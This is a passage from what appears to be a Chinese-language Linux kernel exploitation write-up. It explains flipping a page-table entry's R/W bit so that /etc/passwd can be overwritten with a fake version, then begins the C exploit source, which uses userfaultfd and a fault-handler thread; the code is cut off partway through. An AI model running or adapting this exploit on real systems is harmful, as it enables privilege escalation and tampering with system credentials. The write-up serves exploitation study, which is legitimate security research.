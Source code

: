 因為我們的目標是 PTE 的 R/W bit (bit 2)，所以我們只需要 overwrite 1 byte，把 R/W 蓋成 1 即可，原先末 1 byte value 可以直接拿 PTE 原本存的來用。如果 exploit 成功，我們就能寫到 PTE 對應到的 page，也就是 `/etc/passwd` 資料的所在位址。雖然還不確定是蓋到哪個 `mmap()` 出來的 virtual address 的 PTE，但 syscall read 在傳入的位址為非法的情況下不會 crash，可以用來檢查成功的 `mmap()` memory，而後將 `fake_etc_passwd` 透過 `memcpy()` 寫到 memory 後，用 `msync()` 確保更新成功，最後結束程式。



能做到任意寫檔的 exploit 如下，成功機率大約為 10~15%：

```c
#define _GNU_SOURCE
#include <inttypes.h>
#include <sys/types.h>
#include <stdio.h>
#include <linux/userfaultfd.h>
#include <pthread.h>
#include <errno.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <poll.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/stat.h>
#include <sys/msg.h>
#include <poll.h>
#define BASE_ADDR 0x100000000

int target_fd;
char *addr;
static int page_size;
unsigned char payload[] = { 0b100111 };
int *pte_addr[1 << 8];

void perr(const char *msg)
{
    puts(msg);
    exit(1);
}

void *uf_handler(void *arg)
{
    static char *page = NULL;
    static struct uffd_msg msg;
    struct uffdio_copy uffdio_copy;
    long uffd;

    uffd = (long) arg;
    if (page == NULL)
        page = mmap(NULL, page_size, PROT_READ | PROT_WRITE,
                   MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (page == MAP_FAILED)
           perr("[-] uf_handler mmap failed");

    struct pollfd pollfd;
    size_t nready;
    int nread;

    pollfd.fd = uffd;
    pollfd.events = POLLIN;
    nready = poll(&pollfd, 1, -1);
    if (nready == -1)
        perr("[-] poll failed");
```